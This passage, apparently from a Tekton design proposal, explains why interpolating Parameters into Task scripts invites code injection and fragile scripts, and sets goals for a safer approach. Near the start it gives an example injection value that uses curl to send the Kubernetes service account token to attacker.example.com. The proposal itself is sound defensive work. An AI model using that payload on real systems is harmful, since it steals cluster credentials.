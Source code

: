 Similarly for a python script, an attacker can access the service account token for the `TaskRun` using `Parameter` *bar* as `{os.system('curl -s http://attacker.example.com/?value=' + open('/var/run/secrets/kubernetes.io/serviceaccount/token').read())}`

###  Reliability

The interpolation of `Parameters` in `Script` is not aware of context - it is a simple string
replacement. As such, it is easy for a `Task` _User_ to accidentally pass in a `Parameter`
with a character that would make the `Script` invalid and fail the `Task`, making the
`Task` extremely fragile. Characters that can invalidate the `Script` include a space,
a quote sign, and a newline. An example with a quote sign is demonstrated below.
For further details, read the warning in the [recommendations][catalog-recommendation].

##### Example

A `Task` with a `Step` *foo* interpolates `Parameter` *bar* in its `Script`, as such:

```yaml
  steps:
  - name: foo
    image: myimage
    script: |
      echo $(params.bar)
```

A user can pass in `Parameter` *bar* with a single quote. The `Task` would fail because of
the unterminated quote string, instead of echoing the quote string.

### Goals

#### What is it trying to achieve?
The proposed solution is trying to achieve the following:

1. **`Tasks` should safely and reliably access `Parameter` variables from `Scripts`**.

   Replace direct interpolation with an alternative that does not put the `Parameter`
   into an executable context by default.

2. `Tasks` in the *Tekton Catalog* should be bumped to use the safer approach.
    - Given that this update would likely be backwards-incompatible, as it was in the
    [`git-clone` Task update in the Catalog][catalog-pr-711], the versions of those
    `Tasks` have to be bumped with this update, and their previous versions' docs 
     updated to warn about the issue.
    - Catalog `Tasks` that leverage this pattern to intentionally inject executable code
    (e.g. the `git-cli` Task [accepts a script to run as a param][git-cli]) can be updated
    to execute the contents of the `Parameter` from a file or call [`eval`](https://man7.org/linux/man-pages/man1/eval.1p.html) on it explicitly.

3. Tekton Pipelines and Catalog documentation should be updated to the new approach.

4. **`Tasks` should not support implicit runtime code injection**.

   Disallow interpolating `Param` values directly into executable
   contexts. If the user wants to execute the contents of a param as a
   script then they should be able to, but it shouldn't be possible
   without "opting in" to that behaviour by calling `eval` or writing
   the value of a param to a script and running it.


[catalog-recommendation]: https://github.com/tektoncd/catalog/blob/main/recommendations.md#dont-use-interpolation-in-scripts-or-string-arguments
[git-cli]: https://github.com/tektoncd/catalog/blob/4f365ec668973abe3c2df87323b3b7e4bd4a614a/task/git-cli/0.3/git-cli.yaml#L137
[catalog-pr-711]: https://github.com/tektoncd/catalog/pull/711
[plumbing-pr-973]: https://github.com/tektoncd/plumbing/pull/973
[plumbing-pr-974]: https://github.com/tektoncd/plumbing/pull/974
[plumbing-pr-975]: https://github.com/tektoncd/plumbing/pull/975
[plumbing-pr-976]: https://github.com/tektoncd/plumbing/pull/976
[plumbing-pr-977]: https://github.com/tektoncd/plumbing/pull/977
[secure-by-default]: https://en.wikipedia.org/wiki/Secure_by_default
[params-vars-docs]: https://github.com/tektoncd/pipeline/blob/main/docs/tasks.md#substituting-parameters-and-resources
[tep-0086-alt]: https://github.com/tektoncd/community/pull/521/files#diff-6057e05e8be034edde14ed71128372a35468e25c3f6c9809be8cc8a1e78ada94R287
[tep-0086-prop]: https://github.com/tektoncd/community/pull/521/files#diff-6057e05e8be034edde14ed71128372a35468e25c3f6c9809be8cc8a1e78ada94R275
[pipeline-issue-781]: https://github.com/tektoncd/pipeline/issues/781
[tep-0017]: https://github.com/tektoncd/community/pull/208
[tep-0023]: https://github.com/tektoncd/community/blob/main/teps/0023-implicit-mapping.md
[tep-0099]: https://github.com/tektoncd/community/pull/596
[triggers-issue-675]: https://github.com/tektoncd/triggers/issues/675
[pipeline-issue-3226]: https://github.com/tektoncd/pipeline/issues/3226
[templating-doc]: https://docs.google.com/document/d/1h_3vSApIsuiwGkrqSiegi4NVaYG4oVzBquGAhIN6qGM/edit?usp=sharing
[security-hardening-for-github-actions]: https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-an-intermediate-environment-variable
